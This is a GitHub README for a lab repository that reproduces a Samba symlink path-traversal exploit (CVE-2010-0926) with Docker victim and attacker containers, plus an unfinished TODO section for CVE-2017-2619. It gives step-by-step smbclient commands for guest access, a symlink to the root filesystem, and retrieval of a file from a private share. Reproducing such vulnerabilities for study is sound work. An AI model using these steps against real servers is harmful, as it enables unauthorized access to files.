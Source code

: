 # vulnsamba

This repo contains proof of concept exploits for 2 CVEs on old versions of samba.<br>
For each CVE, there are two docker containers: `victim` and `attacker`.





## Table of contents

* [CVE-2010-0926](#cve-2010-0926)
  * [Information and links](#information-and-links)
  * [Containers description](#containers-description)
  * [Instructions to reproduce](#instructions-to-reproduce)
* [CVE-2017-2619](#cve-2017-2619)
  * [Information and links](#information-and-links-1)
  * [Containers description](#containers-description-1)
  * [Instructions to reproduce](#instructions-to-reproduce-1)





## CVE-2010-0926


### Information and links
More on mitre: [CVE-2010-0926](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0926)<br>
Category: [CWE-22 Path Traversal](https://cwe.mitre.org/data/definitions/22.html)<br>
Vulnerable version: `samba-3.4.5`<br>
Exploit was taken from: https://www.exploit-db.com/exploits/33599


### Containers description

* `victim` container contains `samba-3.4.5`, which was built from the sources, and configured to have two shares: `public` and `private`
* `attacker` container contains patched version of `samba-3.4.5` client, which allows creating symlinks to outside of a share


### Instructions to reproduce

1. Pull the needed images from dockerhub<br>
`docker pull kezzyhko/cve-2010-0926_victim`<br>
`docker pull kezzyhko/cve-2010-0926_attacker`

1. Run the vulnerable server<br>
`docker run -it --name cve-2010-0926_victim kezzyhko/cve-2010-0926_victim`<br>
You may see no sign of anything happening, but that's ok, `smbd` should have started working in the background

1. Find out the server container's ip<br>
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' cve-2010-0926_victim`<br>
Remember it, we will need it to connect to the server.

1. Run the attacker container. It contains patched version of samba-3.4.5 client<br>
`docker run -it --name cve-2010-0926_attacker kezzyhko/cve-2010-0926_attacker`

1. In the attacker container, connect to the server as a guest using `smbclient`<br>
`smbclient -N \\\\<ip>\\public`<br>
Note, that `\` characters are repeated twice, because they need to be escaped

1. Create the symlink to the root (or any other folder outside share)<br>
`symlink / rootfs`

1. Finally, get the secret from the private share<br>
`cd rootfs`<br>
`cd private`<br>
`get secret.txt`<br>
`exit`<br>
`cat secret.txt`<br>
You should see the following string: `You f0und 7he s3cret!`





## CVE-2017-2619


### Information and links
TODO


### Containers description
TODO


### Instructions to reproduce
TODO
